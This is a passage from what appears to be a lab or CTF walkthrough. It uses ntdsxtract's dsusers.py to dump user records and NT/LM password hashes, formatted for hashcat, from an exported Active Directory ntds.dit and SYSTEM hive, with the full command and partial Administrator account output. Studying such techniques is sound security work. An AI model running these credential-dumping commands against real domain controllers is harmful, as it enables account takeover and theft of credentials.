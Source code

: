 The ntdsxtract tool dsusers.py is used to dump user information and NT/LM password hashes from an extracted table. It requires three things: the datatable and link_table which the esedbexport commands provided and the system hive (bin file).

The syntax is:

```
dsusers.py <datatable> <link_table> <output_dir> --syshive <systemhive> --passwordhashes <format options>
```

I plugged in the paths to the required files and set the pwdformat to ocl which formats the output for hashcat. I piped the output to the tee command which displays the output on screen as well as saves to a file, all_user_info.txt in this case.

```
~/tools/ntdsxtract/dsusers.py ntds.dit.export/datatable.3 ntds.dit.export/link_table.5 output --syshive ntds.bin --passwordhashes --pwdformat ocl --ntoutfile ntout.txt --lmoutfile lmout.txt | tee all_user_info.txt
```

![image](https://user-images.githubusercontent.com/10210108/82266884-e9537300-9938-11ea-9fb4-6b9a2a65b8d0.png)

Full Output

```
[+] Started at: Mon, 18 May 2020 22:50:43 UTC                                                                                                                                                 
[+] Started with options:                                                                                                                                                                     
        [-] Extracting password hashes                                                                                                                                                        
        [-] Hash output format: ocl                                                                                                                                                           
        [-] NT hash output filename: ntout.txt                                                                                                                                                
        [-] LM hash output filename: lmout.txt                                                                                                                                                
[+] Initialising engine...                                                                                                                                                                    
[+] Loading saved map files (Stage 1)...                                                                                                                                                      
[+] Loading saved map files (Stage 2)...
List of users:                                                                                                                                                                      [45/18951]
==============                                                                                                                                                                                
Record ID:            3562                                                                                                                                                                    
User name:            Administrator                                                                                                                                                           
User principal name:                                                                                                                                                                          
SAM Account name:     Administrator                                                                                                                                                           
SAM Account type:     SAM_NORMAL_USER_ACCOUNT                                                                                                                                                 
GUID:                 5f9433a8-7363-4f5e-8d3c-4a4dacca157c                                                                                                                                    
SID:                  S-1-5-21-1036816736-4081296861-1938768537-500                                                                                                                           
When created:         2016-07-19 23:33:08+00:00                                                                                                                                               
When changed:         2017-07-21 14:39:07+00:00                                                                                                                                               
Account expires:      Never                                                                                                                                                                   
```